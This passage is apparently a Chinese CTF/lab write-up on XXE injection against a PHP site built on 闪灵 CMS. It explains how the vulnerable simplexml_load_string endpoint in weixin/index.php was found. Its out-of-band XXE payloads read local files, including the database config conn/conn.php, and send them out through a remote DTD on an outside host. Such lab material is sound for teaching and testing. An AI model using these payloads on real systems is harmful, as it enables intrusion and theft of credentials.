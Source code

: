```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/phpStudy/WWW/xxe/flag.php">
<!ENTITY % remote SYSTEM "http://59.63.200.79:8017/1.xml">
%remote;
%send;
]>

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819151333317.png)
> 
> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819151408189.png)

**base64 解码一下就是 flag 了**

XXE-2
=====

> **实验环境：[http://59.63.200.79:8207/](http://59.63.200.79:8207/)**

打开一看是个网站，看一下源码发现是闪灵 CMS 建站

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819151649693.png)

下载源码找关键函数 simplexml_load_string，这个容易出现 xxe

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819153630727.png)

分析

**1、`$postArr`是 php://input 直接接受 post 传参的。php://input 可以读取没有处理过的 POST 数据，相较于 $HTTP_RAW_POST_DATA 而言，它给内存带来的压力较小，并且不需要特殊的 php.ini 设置，php://input 不能用于 enctype=multipart/form-data。明显存在 XXE**

**2、想让 if 满足条件，`$signature`不为空，`$echostr`要为空，追踪发现 signature 和 echostr 都是 GET 传参**

**3、漏洞位置在 weixin/index.php, 可以通过源码知道存在 / conn/conn.php 的文件，里面包含着数据库文件**

知道了地点了，测试了下是 windows 系统，访问一下`c:/windows/win.ini`

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
<!ENTITY % remote SYSTEM "http://59.63.200.79:8017/1.xml">
%remote;
%send;
]>

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819154854594.png)

可以直接利用爆出的路径读取 conn/conn.php

payload 如下

```
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/phpStudy/scms/conn/conn.php">
<!ENTITY % remote SYSTEM "http://59.63.200.79:8017/1.xml">
%remote;
%send;
]>

```
